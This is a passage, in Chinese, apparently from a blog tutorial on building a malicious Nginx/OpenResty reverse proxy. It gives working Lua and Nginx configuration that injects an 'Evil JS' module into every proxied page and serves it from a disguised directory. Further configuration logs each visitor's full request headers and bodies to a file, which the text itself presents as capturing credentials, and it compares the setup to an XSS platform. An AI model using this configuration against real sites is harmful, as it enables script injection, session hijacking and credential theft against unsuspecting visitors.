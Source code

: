                                whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"  
                               ngx.arg[1] = whole  
                            end  
                    }

在修改网页内容之前，需要通过`header_filter_by_lua_block`将`Content-
Length`进行清空，因为修改后，`Content-Length`的大小一定是改变的。

#### 使用ES6+标准将JS模块化

    
    
    <script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>

其中`static.js`就是引入的Evil JS，添加了`type='module'`是为了启用ES6+标准。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181141.png)notion
image

为了不和源站的目录冲突，`7276df76835ed2272cc0e59f55e49902`其实是一个虚拟的目录，通过`location`映射即可。

    
    
    location ^~ /7276df76835ed2272cc0e59f55e49902/ {  
                    alias    /tmp/pricking/static/;  
    }

关于Import的说明可以看这篇文章。

使用模块化功能可以让这个项目吸收更多关于浏览器丰富的操作，就像XSS平台那样。

#### Nginx - 记录日志或凭证

由于`log_by_lua_block`是最后一个流程，可以把一些数据进行收集，写入日志文件。

    
    
    ...  
      
    http {  
        ....  
        log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';  
      
        server {  
                set $request_headers "";  
                set $current_time "";  
               ....  
      
                location / {  
                    ...  
                    log_by_lua_block {  
                        ngx.var.current_time = ngx.localtime()  
                        ngx.var.request_headers = ngx.req.raw_header()  
                    }  
            }  
            access_log /tmp/pricking/access.log logeverything;  
        }  
    }

